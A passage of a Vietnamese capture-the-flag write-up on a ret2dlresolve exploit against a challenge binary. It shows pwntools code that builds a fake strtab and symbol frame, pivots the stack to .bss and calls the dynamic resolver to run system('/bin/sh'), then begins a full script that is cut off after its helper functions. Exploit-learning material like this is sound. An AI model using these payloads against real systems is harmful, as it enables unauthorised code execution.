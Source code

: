 ##### 3. Fake Strtab
Vì bản chất là một chuỗi các kí tự là tên hàm nên ta sẽ thiết lập chuỗi **system** và padding đủ 8 byte:
```python=
#Build fake strtab
strtab_fake = b"system\0\0"
```
##### Kết nối thành frame:
Ta sẽ tiến hành kết nối các cấu trúc ta đã dựng nên vào với nhau và vì mục tiêu ta là tạo shell với `system("/bin/sh")` nên ý đồ ở đây là khi tiến hành resolve thì hàm mới resolve sẽ được gọi và khi ấy sẽ lấy vào tham số đầu tiên là chuỗi **'/bin/sh'** nên ở cuỗi frame ta cần thêm vào chuỗi trên và ta có tổng thể một fake frame:
```python=
#Sum
fake = rela_fake + p64(0) + p64(0) + symtab_fake + strtab_fake + b'/bin/sh\0'
```
#### Cooking Shell
Với các địa chỉ `rela_addr`, `sym_addr` và `str_addr`, ta sẽ tiến hành ghi môt lượt các frame đã được tổng hợp trong biến `fake` thông qua stack pivot vào địa chỉ bắt đầu của frame là `0x404df0` và sau đó là gọi resolver.
```python=
#Pivoting to the bss 
p1 = b'a'*(ofs-8) + p64(bss+0x50) + p64(vuln+4)
sl(p1)

#Set up the frame
p2 = b'b'*0x10
p2 += fake
p2 = p2.ljust((ofs-8),b'b') 
p2 += p64(0x404e50+0x60) + p64(vuln+4)
sl(p2)

#Call resolver
p3 = b'c'*(ofs)
p3 += p64(resolver) 
p3 += p64(relo_arg)
sl(p3)
```
Tiến hành chạy script và ta có được shell:
![{86D75D3B-4455-428E-AF1A-2F3217580149}](https://hackmd.io/_uploads/Sk32FKE3yl.png)

***Note:** Mặc dù đã có được shell nhưng không thể tương tác mặc dù hàm con của System đã được gọi với các tham số hoàn toàn đúng.*
### FULLSCRIPT
```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('chall_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
```